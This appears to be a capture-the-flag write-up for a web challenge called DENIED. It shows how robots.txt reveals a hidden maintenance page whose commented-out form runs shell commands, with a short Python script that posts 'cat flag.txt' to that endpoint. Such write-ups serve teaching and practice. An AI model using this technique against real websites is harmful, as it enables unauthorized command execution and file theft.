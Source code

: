 # DENIED

## Web Security: 75 points

## Solve

Sometimes websites are afraid of the terminator finding things out. http://challenge.acictf.com:15499/ The flag is in flag.txt.

## Hints

* How can websites keep search engines from finding private information?
* Sometimes the developers leave some comments that give you a hint about what to do...
* You can use the cat command to read files

## Solution

The website hints at robots:

> You need robots? We have robots. We've got all of the robots!

Check the **/robots.txt** page to see whats there:
```
User-agent: *
Allow: /index.html
Allow: /products.html
Disallow: /maintenance_foo_bar_deadbeef_12345.html
```

The maintenance page seems interesting:
> Human-Built Robots LLC.  
Maintenance  
"Result: Run a command!" 

Inspect the page and look at the source. There is a section that is commented out:
```
<!--
Disabled for being insecure... oops!
<form action="/secret_maintenance_foo_543212345", method="POST">
    <input name="cmd"/>
</form>
-->
```
Uncomment this section to reveal an input box that can accept commands. `pwd`, `ls`, and `cat` are all valid commands for this input.

Using python's requests library, a script can post commands to **/secret_maintenance_foo** to experiment further.:

```
#!/usr/bin/python3
import requests

url = "http://challenge.acictf.com:12133"
myObj = {'cmd' : 'cat flag.txt'}
x = requests.post(url + "/secret_maintenance_foo_543212345", data = myObj)
print(x.text)
```

The `ls` command produces:
```
flag.txt
robots.txt
server.py
static
templates
xinet_startup.sh
```
The command `cat flag.txt` prints out the flag.